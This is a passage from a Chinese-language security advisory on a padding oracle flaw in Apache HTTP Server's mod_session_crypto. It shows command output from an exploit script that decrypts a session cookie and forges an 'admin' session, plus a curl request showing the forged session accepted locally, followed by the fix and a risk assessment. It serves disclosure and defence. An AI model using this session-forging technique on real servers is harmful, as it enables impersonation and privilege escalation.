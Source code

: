 
然后，我们就可以通过此Python脚本来解密会话了： 



```
$ time python exploit.py decrypt sxGTJsP1TqiPrbKVM1GAXHla5xSbA/u4zH/4
Hztmf0CFsp1vpLQl1DGPGMMyujJL/znsBkkf0f8cXLgNDgsGE9O7pbWnbaJS8JEKXZMYBRU=
Decrypted session:
b'username=guest&amp;timestamp=1453282205rrrrrrrrrrrrr'
real    6m43.088s
user    0m15.464s
sys 0m0.976s
```

在这个示例应用程序中，会话数据包括用户名和时间戳。该Python脚本也可以用来对包含用户名"admin"的新会话进行加密： 



```
$ time python exploit.py encrypt sxGTJsP1TqiPrbKVM1GAXHla5xSbA/u4zH/4
Hztmf0CFsp1vpLQl1DGPGMMyujJL/znsBkkf0f8cXLgNDgsGE9O7pbWnbaJS8JEKXZMYB
RU= username=admin
Encrypted session:
sxGTJsP1TqiPrbKVM1GAXPZQZNxCxjK938K9tufqX9xDLFciz7zmQ/GLFjF4pcXY
real3m38.002s
users0m8.536s
sys0m0.512s
```

如果将这个新加密的会话发送到服务器，这次显示用户名就会变成“admin”： 



```
$ curl -b session=sxGTJsP1TqiPrbKVM1GAXPZQZNxCxjK938K9tufqX9xDLFciz7
zmQ/GLFjF4pcXY http://127.0.0.1:8080/cgi-bin/status.rb
your username is admin
```



**解决方法 **

使用其他方式来存储会话，例如使用mod_session_dbd保存到数据库中。

<br>

**修复漏洞 **

更新到Apache HTTP版本2.4.25（参见[参考文献[2]](http://httpd.apache.org/security/vulnerabilities_24.html)）。

<br>

**安全风险**

使用mod_session_crypto模块的应用程序通常会把敏感的数据保存在在会话中，其安全性主要依赖于攻击者无法解密或修改该会话。如果存在Padding Oracle漏洞，那么攻击者能够利用它来破坏这种机制，并能够构造会话，放入攻击者指定的任意内容。根据应用程序本身的情况，有可能给它的安全性带来致命的打击。所以，这个一个高危漏洞。

<br>

**参考文献 **

[1] [https://github.com/mwielgoszewski/python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle)

[2] [http://httpd.apache.org/security/vulnerabilities_24.html](http://httpd.apache.org/security/vulnerabilities_24.html)
